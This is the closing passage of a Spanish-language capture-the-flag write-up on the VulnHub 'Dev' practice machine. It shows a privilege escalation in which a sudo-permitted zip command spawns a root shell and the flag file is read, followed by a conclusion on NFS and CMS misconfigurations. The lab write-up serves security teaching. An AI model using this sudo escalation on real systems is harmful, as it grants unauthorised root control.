 

Ahora lo que tenemos que hacer es probar esos comandos.



```bash

jeanpaul@dev:~$ TF=$(mktemp -u)

jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'

  adding: etc/hosts (deflated 31%)

id

uid=0(root) gid=0(root) groups=0(root)

# whoami

root

ls

cd /root

ls

flag.txt

# cat flag.txt

Congratz on rooting this box !

# 

```



Y ya tendríamos este reto resuelto.



## Conclusión



La explotación de **Dev (VulnHub)** demuestra cómo errores de configuración aparentemente simples pueden comprometer por completo un sistema.  



**Puntos clave identificados:**

- NFS mal configurado permitió la filtración de claves SSH.  

- Archivos de configuración de CMS accesibles.  
